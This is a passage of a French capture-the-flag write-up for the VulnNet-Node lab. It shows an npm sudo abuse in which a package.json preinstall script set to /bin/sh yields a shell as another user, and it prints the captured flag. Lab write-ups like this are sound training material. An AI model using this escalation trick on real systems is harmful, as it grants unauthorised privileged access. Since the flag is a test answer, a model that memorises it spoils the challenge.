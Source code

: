 ```bash
npm ERR!   cause: [Error: EACCES: permission denied, open '/tmp/tmp.C0rZKS4yki/npm-shrinkwrap.json'] {
npm ERR!     errno: -13,
npm ERR!     code: 'EACCES',
npm ERR!     syscall: 'open',
npm ERR!     path: '/tmp/tmp.C0rZKS4yki/npm-shrinkwrap.json'
npm ERR!   },
npm ERR!   isOperational: true,
npm ERR!   errno: -13,
npm ERR!   code: 'EACCES',
npm ERR!   syscall: 'open',
npm ERR!   path: '/tmp/tmp.C0rZKS4yki/npm-shrinkwrap.json'
npm ERR! }
npm ERR! 
npm ERR! The operation was rejected by your operating system.
npm ERR! It is likely you do not have the permissions to access this file as the current user
npm ERR! 
npm ERR! If you believe this might be a permissions issue, please double-check the
npm ERR! permissions of the file and its containing directories, or try running
npm ERR! the command again as root/Administrator.

npm ERR! A complete log of this run can be found in:
npm ERR!     /home/serv-manage/.npm/_logs/2021-08-11T23_09_44_690Z-debug.log

```

Cela ne fonctionne pas j'ai pas les droits d'écriture sur le répertoire tmp.   

```bash
www@vulnnet-node:~/VulnNet-Node$ mkdir /dev/shm/noraj
mkdir /dev/shm/noraj
www@vulnnet-node:~/VulnNet-Node$ TF=/dev/shm/noraj
TF=/dev/shm/noraj
www@vulnnet-node:~/VulnNet-Node$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
 $TF/package.json {"preinstall": "/bin/sh"}}' > 
www@vulnnet-node:~/VulnNet-Node$ sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
e-perm iserv-manage /usr/bin/npm -C $TF --unsafe

> @ preinstall /dev/shm/noraj
> /bin/sh
```

On change de répertoire on va dans \/dev/shm\/noraj

```bash
id
uid=1000(serv-manage) gid=1000(serv-manage) groups=1000(serv-manage)
cat /home/serv-manage/user.txt
THM{064640a2f880ce9ed7a54886f1bde821}

```

On a un shell avec les droits serv-manage.   
On peut lire le fichier user.txt.  
